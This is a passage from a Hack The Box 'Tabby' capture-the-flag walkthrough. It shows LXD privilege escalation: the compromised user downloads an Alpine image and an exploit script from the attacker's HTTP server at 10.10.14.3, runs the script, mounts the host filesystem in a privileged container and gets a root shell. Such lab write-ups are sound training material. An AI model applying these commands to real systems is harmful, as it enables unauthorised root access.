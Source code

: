 
We start http server on our machine to send the files to the victim machine

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/tabby]
└─$ python -m SimpleHTTPServer
```

```
ash@tabby:~$ wget 10.10.14.3:8000/alpine-v3.14-x86_64-20210820_1000.tar.gz
wget 10.10.14.3:8000/alpine-v3.14-x86_64-20210820_1000.tar.gz
--2021-08-20 14:15:32--  http://10.10.14.3:8000/alpine-v3.14-x86_64-20210820_1000.tar.gz
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3226334 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.14-x86_64-20210820_1000.tar.gz’

alpine-v3.14-x86_64 100%[===================>]   3.08M   196KB/s    in 16s     

2021-08-20 14:15:49 (197 KB/s) - ‘alpine-v3.14-x86_64-20210820_1000.tar.gz’ saved [3226334/3226334]

ash@tabby:~$ wget 10.10.14.3:8000/alpine.sh
wget 10.10.14.3:8000/alpine.sh
--2021-08-20 14:18:31--  http://10.10.14.3:8000/alpine.sh
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: ‘alpine.sh’

alpine.sh           100%[===================>]   1.42K  --.-KB/s    in 0s      

2021-08-20 14:18:32 (149 MB/s) - ‘alpine.sh’ saved [1451/1451]
```

Now we just need to give the required permission to our script and run it

```
ash@tabby:~$ chmod 777 alpine.sh
chmod 777 alpine.sh
ash@tabby:~$ ./alpine.sh -f alpine-v3.14-x86_64-20210820_1000.tar.gz
./alpine.sh -f alpine-v3.14-x86_64-20210820_1000.tar.gz
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | bdf364adbca7 | no     | alpine v3.14 (20210820_10:00) | x86_64       | CONTAINER | 3.08MB | Aug 20, 2021 at 2:22pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami  
whoami
root
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls       
ls
root.txt  snap
/mnt/root/root # cat root.txt
```